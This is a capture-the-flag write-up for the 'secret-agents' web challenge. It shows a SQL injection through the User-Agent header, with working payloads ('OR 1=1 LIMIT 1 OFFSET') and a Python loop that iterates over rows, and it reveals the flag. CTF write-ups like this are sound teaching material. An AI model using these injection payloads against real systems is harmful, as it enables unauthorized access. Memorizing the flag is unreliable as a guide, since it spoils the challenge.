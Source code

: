 # secret-agents
Web, 110

> Can you enter the secret agent portal? I've heard someone has a flag :eyes:
>
> Our insider leaked the source, but was "terminated" shortly thereafter...
>
> Linked: https://agents.2020.chall.actf.co, app.p<span></span>y

For a while this kept going down due to pool exhaustion, but I removed it and it stabilised.

There seem to be a lot of commented code ~~from my attempts at a rate-limit hotfix~~, but the main issue we see is here:
```python
for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
```
under the `/login` function.

The sql statement is vulnerable to injections!
Tracing where `u` is from, we find:
```python
u = request.headers.get("User-Agent")
```

So, this seems like an injection via the User-Agent. Simple enough. One thing to keep in mind is that we can only select 1 agent at a time, due to this line:
```python
if len(res) > 1:
```

You can use whatever interface you want to set the User-Agent, but I used Python + requests.

Anyway, we set our User-Agent header to `' OR 1=1;-- ` (mind the space).

However, this triggers the previously mentioned line of code, and we are faced with:
`hey! close, but no bananananananananana!!!! (there are many secret agents of course)`

So, we look into ways to limit it. Of course, MySQL has a `LIMIT`, so we implement it.
Our User-Agent now looks like `' OR 1=1 LIMIT 1;-- `.

Now, we can see that we're logged in as GRU (from Despicable Me). The only logical way to proceed now is to iterate through all the users, using something like Python:
```python
import requests

i=0
while True:
    p = requests.get("https://agents.2020.chall.actf.co/login", headers={
        "User-Agent": f"' OR 1=1 LIMIT 1 OFFSET {i};-- "
    })

    if "actf" in p.text:
        print(p.text)
        break

    i += 1;
```

Note that the `OFFSET` keyword is used to get the `i`th agent.

Flag: `actf{nyoom_1_4m_sp33d}`